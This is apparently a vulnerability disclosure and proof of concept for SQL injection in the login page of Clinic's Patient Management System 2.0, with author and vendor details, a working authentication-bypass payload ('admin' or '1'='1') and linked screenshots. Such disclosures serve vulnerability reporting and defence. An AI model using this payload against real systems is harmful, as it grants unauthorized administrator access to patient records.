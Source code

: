 #### Title: Clinic's Patient Management System 2.0 SQLi
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 04.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
#### Version: 2.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Clinic's%20Patient%20Management%20System/SQLi/POC.md

#### Description:
### It was discovered that SQL Injection techniques can be used to fool the application into authenticating without the needing valid credentials. SQL Injection vulnerabilities on login pages expose an application to unauthorized access at the administrator level, thereby severely compromising the security of the application.

# Status: CRITICAL

### [+] Payloads:

``` 
Username: = admin' or '1'='1
Password: = Cyberthoth;)

```


## Proof and Exploit:
1
![image](https://github.com/CyberThoth/CVE/blob/5198ef2d56f9c818654bbe131c7f7e3055923f23/CVE/Clinic's%20Patient%20Management%20System/SQLi/1.png)

2
![image](https://github.com/CyberThoth/CVE/blob/5198ef2d56f9c818654bbe131c7f7e3055923f23/CVE/Clinic's%20Patient%20Management%20System/SQLi/2.png)

3
![image](https://github.com/CyberThoth/CVE/blob/5198ef2d56f9c818654bbe131c7f7e3055923f23/CVE/Clinic's%20Patient%20Management%20System/SQLi/3.png)

